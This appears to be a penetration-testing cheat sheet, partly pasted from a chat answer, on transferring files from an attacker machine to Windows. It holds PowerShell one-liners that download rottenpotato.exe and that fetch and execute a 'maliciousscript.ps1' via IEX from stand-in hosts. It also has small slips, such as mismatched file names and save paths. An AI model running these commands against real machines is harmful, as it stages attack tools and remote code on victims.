# From Attacker to windows
**PowerShell**
To download a file from the URL `http://10.10.10.3/vv.vbs` and save it to `C:\temp\` using CMD in Windows, you can use one of the following methods:

### Method 1: PowerShell (Built into Windows)
PowerShell is often pre-installed and supports downloading files directly:
```cmd
powershell -command "Invoke-WebRequest -Uri 'http://10.10.14.27/rottenpotato.exe' -OutFile 'C:\temp\rottenpotato.exe'"
```
To download a file using PowerShell, you can use `Invoke-WebRequest` to fetch the file, but based on your query, you're referring to using `IEX` (short for `Invoke-Expression`) with `New-Object`. This pattern is often used in PowerShell scripts to download and execute a file.

Here is an example of how you might **download a file and execute** it using `IEX` and `New-Object`:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://example.com/maliciousscript.ps1')
```

### Explanation:
- `New-Object Net.WebClient`: Creates a new instance of the `WebClient` class, which is used to download content from the web.
- `.DownloadString('http://example.com/maliciousscript.ps1')`: Downloads the content of the script at the specified URL.
- `IEX`: Executes the downloaded script as PowerShell code.

This approach is commonly used in penetration testing or malicious attacks but also has legitimate uses in automating PowerShell scripts.

If you're just downloading a file and saving it locally (rather than executing it), you could use:

```powershell
(New-Object Net.WebClient).DownloadFile('http://example.com/file.zip', 'C:\path\to\save\file.zip')
```

#### Another method
The `Invoke-WebRequest` (iwr) command in PowerShell can be used to transfer files by downloading them from a specified URI (Uniform Resource Identifier) and saving them to a local path. Here's a breakdown of your command:

```powershell
iwr -Uri http://Kali-IP/file.exe -OutFile C:\temp\file.exe
```

### Explanation:

1. **`iwr`**: Short for `Invoke-WebRequest`, this cmdlet sends HTTP/HTTPS requests to the specified server.
2. **`-Uri`**: Specifies the web address of the file to download. In this case, `http://Kali-IP/file.exe` is the URL.
3. **`-OutFile`**: Specifies the local file path where the downloaded content will be saved. Here, the file is saved as `C:\Users\Temp\file.exe`.
